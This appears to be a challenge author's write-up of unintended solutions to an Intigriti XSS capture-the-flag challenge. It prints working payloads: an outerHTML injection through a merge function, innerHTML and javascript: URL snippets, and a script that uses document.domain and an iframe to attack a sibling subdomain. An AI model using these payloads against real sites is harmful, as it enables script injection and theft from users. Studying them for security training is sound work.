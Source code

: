 ## Unintended(for the previous one, not revenge challenge)

### #1 Unintended but fixed solution

Before the original challenge has released to the public, @PinkDraconian gave early access to the other four players for private testing.

At that time, there is no `sanitize` function, and `root` is added to DOM before Mithril.js.

To my surprise, one player found an unintended solution:

``` js
settings[root][outerHTML]=<input autofocus onfocus=alert(document.domain)>
```

It works because you can assign any value to the DOM in the `merge` function.

I was too focused on prototype pollution to find this unintended, thanks again to the player for finding it before the challenge was released to the public.

Also, this attack surface creates more other ways to the unintended because one can access `document` and `window`, like:

``` js
document.body.innerHTML = '<svg onload=alert(1)>'
document.location.href = 'javascript:alert(1)'
window.location.href = 'javascript:alert(1)'
```

To prevent this, I added a sanitize function to filter dangerous characters, hoping to close the door for injecting arbitrary HTML.

But, as you know, I failed. So I try to fix it again and release this revenge challenge.

### #2 Unintended but not fixed solution

After the patch, I found another interesting unintended solution.

Remember that we can set the value for any attributes on `document`?

We can set `document.domain` to `intigriti.io` and then leverage another challenge from a different subdomain!

If both subdomains set their domain to `intigriti.io`, they can interact with each other as if they are same-origin! See [MDN docs](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain) for more detail.

For example, we can:

1. Use XSS in challenge-0222.intigriti.io, change `document.domain` to `intigriti.io`
2. Add an iframe to embed challenge-0422.intigriti.io, also set document.domain via config query string
3. It's same-origin now, we can perform XSS on `challege-0422` from `challenge-0222`.

Code:

``` js
document.domain='intigriti.io';
a=document.createElement('iframe');
a.src='https://challenge-0422.intigriti.io/challenge/Window Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][domain]=intigriti.io';
document.body.appendChild(a);
a.onload=function(){
  setTimeout(()=>{
    a.contentWindow.document.body.innerHTML='<style onload=alert(document.domain)>';
  // we need to change it back
    a.contentWindow.document.domain='challenge-0422.intigriti.io'
  },1000)
}
```
